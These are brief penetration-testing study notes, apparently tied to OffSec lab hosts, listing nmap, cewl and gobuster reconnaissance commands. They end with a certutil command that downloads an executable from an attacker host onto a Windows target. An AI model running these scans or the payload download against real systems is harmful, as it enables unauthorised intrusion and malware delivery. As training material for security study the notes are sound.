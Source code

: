 ### NMAP
nmap -p80 --script=http-enum 172.16.80.1

nmap -p80 --script=http-methods --script-args http-methods.url-path='/wp-includes/' $IP

nmap -p80 -sV --script http-wordpress-enum offsecwp

### CEWL

sudo cewl -d 2 -m 5 -w ourWordlist.txt www.MegaCorpOne.com

ls -sa /usr/bin | sed 's/[0-9]*//g' | sed -r 's/\s+//g' |sort -u > $HOME/binaries-wordlist.txt

### GOBUSTER


gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt -t 5 -b 301

gobuster dns -d megacorpone.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -t 30

#### CERTUTIL

certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe

